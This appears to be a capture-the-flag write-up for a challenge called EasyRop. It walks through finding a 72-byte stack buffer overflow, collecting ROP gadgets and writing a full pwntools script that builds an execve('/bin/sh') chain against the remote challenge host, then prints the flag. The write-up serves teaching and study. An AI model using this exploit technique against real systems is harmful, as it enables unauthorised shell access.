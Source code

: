 # EasyRop - Writeup

![challenge description](./chall_description.png)<br>

## Recon
We are given a binary that takes user input and then exits:
`
Welcome to the darkcon pwn!!
Let us know your name:lightstack
`

Using `file` I learned, that we were working with a 64bit binary that was dynamically linked and (using checksec) had PIE (so ASLR) disabled.
When inputting a lot of A's, we get a segmentation fault, that means we have a buffer overflow.

By inputting a pattern generated by pythons pwntools cyclic generator, I found out, that the padding (so the memory space reserved for the input on the stack) was 72bytes.

The next 8bytes are the return pointer that will be POPped.

## Preparation
Now I thought about my objective: Getting a shell<br>
What we have to do:<br>
1.Write "/bin/sh" somewhere in memory<br>
2.make a syscall or call system with the first parameter being the location of the string, and the two next parameters being just anything <br>
<br>
The challenge is called EasyROP, so let's look for some fitting ROP gadgets.
I used [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) and came up with the following list of gadgets I would need:
<br>
\[+] Gadget found: 0x4012d3 syscall 				; making the syscall<br>
\[+] Gadget found: 0x481e65 mov qword ptr \[rsi], rax ; ret 	; writing memory <br>
\[+] Gadget found: 0x40f4be pop rsi ; ret 			; controlling the rsi register<br>
\[+] Gadget found: 0x4175eb pop rax ; ret 			; controlling rax<br>
\[+] Gadget found: 0x40191a pop rdi ; ret 			; ...<br>
\[+] Gadget found: 0x40f4be pop rsi ; ret <br>
\[+] Gadget found: 0x40181f pop rdx ; ret<br>
<br>

## The Plan

pop writable location into rsi >> 
pop "/bin/sh" into rax >> 
call write gadget >> 
pop writable +8 into rsi >> 
pop (anything) into rax >> 
call writegadget >> 
pop /bin/sh location into rdi (the first syscall parameter) >> 
pop the junk data location into rsi and rdx (2. and 3. argument) >>
pop 0x3b into rax (=(dec)59; syscall number for execve) >> 
make syscall

--------------------------------

I am using python pwntools for writing the exploit:

```py
#!/usr/bin/env python3
from pwn import *

def main():
	#io = process("./easy-rop") # For debugging
	io = remote("65.1.92.179",49153)
	pre_data = io.recvuntil("your name:")
	
	payload = b"A"*72 # padding

	#Writing /bin/sh
	payload += p64(0x40f4be)	# pop rsi gadget 
	payload += p64(0x004c00e0) 	# Value for rsi, rw in .data
	payload += p64(0x4175eb)	# pop rax gadget
	payload += b"/bin//sh"		# value for rax that will be written into loc of rsi, we use 2*/ for getting to 8 byte, not seven
	payload += p64(0x481e65)	# mov [rsi], rax gadget for writing string
	
	#Writing null byte into .data+0x8	
	payload += p64(0x40f4be)    # pop rsi gadget 
	payload += p64(0x004c00e0+0x8)# Value for rsi, rw in .data+0x8 so the next argument for execve
	payload += p64(0x4175eb)    # pop rax gadget
	payload += p64(0x0)       	# value for rax, so 0x0 for the array as arguments
	payload += p64(0x481e65)    # mov [rsi], rax gadget for writing string
	
		
	#Preparing syscall
	payload += p64(0x40191a)	# pop rdi gadget
	payload += p64(0x004c00e0)	# value for rdi (location of string = rsi)
	payload += p64(0x40181f)	# pop rdx gadget
	payload += p64(0x004c00e0+0x8)# Value for rdx
	payload += p64(0x4175eb)	# pop rax gadget
	payload += p64(0x3b)		# rax value = (dec) 59 = execve syscall number
	payload += p64(0x40f4be)	# pop rsi gadget 
	payload += p64(0x004c00e0+0x8) 	# value for rsi 
	
	#Make syscall
	payload += p64(0x4012d3) 	# syscall gadget	
	

	input("Send payload")
	io.sendline(payload)
	io.interactive()
	
	io.close()

if __name__=="__main__":
	main()

```


When executing it we get the following output:
![terminal output](./terminal_exploit_execution.png)<br>

Well done! <br>
We got the flag `darkCON{w0nd3rful_m4k1n9_sh3llc0d3_us1n9_r0p!!!}` !
